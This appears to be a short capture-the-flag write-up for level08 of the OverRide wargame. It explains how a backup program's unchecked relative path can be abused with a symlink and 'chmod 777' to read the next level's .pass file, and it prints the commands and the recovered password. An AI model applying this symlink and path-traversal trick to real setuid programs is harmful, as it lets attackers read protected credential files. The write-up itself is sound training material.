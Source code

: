 # Relative folder path without check :)

see source.c

## Analysis

So we take a look at the source and noticed the program create a logfile with the same names as the file. So it could read level09 .pass and write it into a file :)

So we just create a symbolic link to level09/backups and just using a relative path that correspond to the file:

`../level09/.pass` get the pass but on with the new file on backups it will do something like:
`./backups/../level09/.pass`. So a symlink can do the tricks :)

## Exploit

```
level08@OverRide:~$ chmod 777 .
level08@OverRide:~$ ln -s backups/ level09
level08@OverRide:~$ ./level08 ../level09/.pass
level08@OverRide:~$ cat backups/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
